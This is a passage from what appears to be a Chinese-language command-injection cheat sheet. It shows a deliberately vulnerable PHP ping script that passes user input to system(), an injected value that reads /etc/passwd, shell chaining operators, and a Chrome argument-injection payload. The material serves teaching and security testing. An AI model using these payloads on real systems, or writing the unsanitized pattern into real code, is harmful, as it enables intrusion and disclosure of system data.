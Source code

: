 命令注入的危险在于它可以让攻击者在系统上执行任何命令，可能导致完全系统妥协。

**带有 PHP 的命令注入示例**：
假设你有一个 PHP 脚本，它接受用户输入以 ping 指定的 IP 地址或域：

```php
<?php
    $ip = $_GET['ip'];
    system("ping -c 4 " . $ip);
?>
```

在上述代码中，PHP 脚本使用 `system()` 函数执行带有用户通过 `ip` GET 参数提供的 IP 地址或域的 `ping` 命令。

如果攻击者提供类似 `8.8.8.8; cat /etc/passwd` 的输入，实际执行的命令将是：`ping -c 4 8.8.8.8; cat /etc/passwd`。

这意味着系统将首先 `ping 8.8.8.8`，然后执行 `cat /etc/passwd` 命令，这将显示 `/etc/passwd` 文件的内容，可能泄露敏感信息。

### 基本命令

执行命令并完成 :p

```powershell
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
...
```

### 命令链

在许多命令行界面中，尤其是在类 Unix 系统中，有几个字符可以用来链接或操作命令。

* `;`（分号）：允许按顺序执行多个命令。
* `&&`（与）：只有在第一个命令成功（返回零退出状态）时才执行第二个命令。
* `||`（或）：只有在第一个命令失败（返回非零退出状态）时才执行第二个命令。
* `&`（后台）：在后台执行命令，允许用户继续使用 shell。
* `|`（管道）：将第一个命令的输出作为第二个命令的输入。

```powershell
command1; command2   # 按顺序执行 command1 和 command2
command1 && command2 # 只有在 command1 成功时才执行 command2
command1 || command2 # 只有在 command1 失败时才执行 command2
command1 & command2  # 在后台执行 command1
command1 | command2  # 将 command1 的输出管道传输到 command2
```

### 参数注入

当只能附加参数到现有命令时，获得命令执行。使用此网站 [Argument Injection Vectors - Sonar](https://sonarsource.github.io/argument-injection-vectors/) 来找到注入参数以获得命令执行。

* Chrome

    ```ps1
    chrome '--gpu-launcher="id>/tmp/foo"'
    ```
